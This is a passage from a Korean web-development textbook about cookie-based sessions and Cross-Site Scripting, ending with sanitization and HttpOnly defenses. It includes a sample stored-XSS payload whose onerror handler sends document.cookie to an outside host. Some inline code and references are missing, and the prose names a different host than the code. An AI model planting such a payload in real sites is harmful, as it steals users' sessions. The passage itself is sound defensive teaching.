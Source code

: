 Chrome이나 Firefox 등의 브라우저에서도 웹 서버의 동작을 확인해본다. 각 브라우저의 개발자 도구에서는 쿠키값을 확인할 수 있는데, \와 같이 개발자 도구의 Application 탭이나 Storage 탭을 이용하여 브라우저(클라이언트)가 저장하는 쿠키의 값을 확인해본다.

\subsection*{Cross-Site Scripting (XSS)}

앞에서 언급한 바와 같이 쿠키를 이용한 인증 방식은 구조적으로 보안 문제를 가지고 있으며, 세션 방식 역시 이 문제에서 완전히 자유롭지 못하다. 예를 들어 공격자가 A라는 사용자가 서버와의 통신을 위해 저장한 쿠키에 포함된 세션 ID를 탈취하고 이를 이용하여 HTTP 요청을 보내면 서버는 공격자를 사용자 A로 인식한다.

쿠키를 탈취하는 여러 방법 중 가장 기초적인 방법은 Cross-Site Scripting(XSS)이다. 공격자는 다른 사용자의 쿠키값을 공격자의 서버로 전송하는 악성 스크립트를 HTML 문서에 삽입하여 해당 문서를 열람한 사용자의 쿠키를 탈취한다. 이러한 공격은 대체로 게시글 등록 기능, 특히 HTML 작성 기능을 통해 주로 발생하며 악성 스크립트를 포함한 게시글을 열람한 사용자는 공격자에게 쿠키를 탈취당하게 된다.

\begin{code}{code:xss-example}{Simple example of XSS}
\begin{verbatim}
<p>Welcome!</p>
<img src="#"
     onerror="location.href=$`http://kweb.io/get_cookie?cookie=${document.cookie}`">
\end{verbatim}
\end{code}

\은 XSS 공격의 간단한 예시로, 공격자는 이러한 내용의 글을 등록하여 서버의 DB에 저장한다. 이후 다른 사용자가 이 게시물을 열람하기 위해 요청을 보내면 이 코드가 포함된 HTML 문서를 응답으로 받게되며, 렌더링 과정에서  태그의 에 해당하는 링크가 존재하지 않으므로  속성의 JS 코드가 실행된다.  객체에는 그 HTML 문서를 요청하는데 사용된 쿠키가 저장되어 있으므로 myserver.io라는 서버에 쿠키값을 그대로 전송하게 된다.

이렇게 XSS는 공격자 입장에서는 공격하기 쉽고, 개발자 입장에서는 방어하기 힘들며, 일반 사용자 입장에서는 당하기 쉽고 당했는지도 알기 힘든 공격 방식이다. 이로 인해 사용자가 다른 웹 사이트에 접속하려고 할 때 신뢰할 수 있는 사이트에만 접속하라는 메시지를 띄우는 웹 사이트도 있다.

웹 서버 개발자는 XSS 공격을 반드시 방어하여야 한다. 사용자로부터 들어오는 입력값 중 게시글과 같이 DB에 저장된 후 다른 사용자에게 보여지는 입력값을 검증하여, XSS가 발생할 수 있는 부분을 제거해야 하며, 이러한 작업을 sanitize(소독)라고 한다. 다행히도 이러한 sanitize 작업을 수행해주는 모듈이 많이 개발되어 있어 개발자는 이러한 모듈을 적극 활용하여 XSS 공격을 예방할 수 있다. 또한, 궁극적인 방어 방법은 아니지만 쿠키를 로 설정하여  객체를 통해 쿠키값에 접근할 수 없게 할 수도 있다. 앞의 \는  쿠키를 자동으로 추가하며, \과 \를 통해 확인할 수 있다.
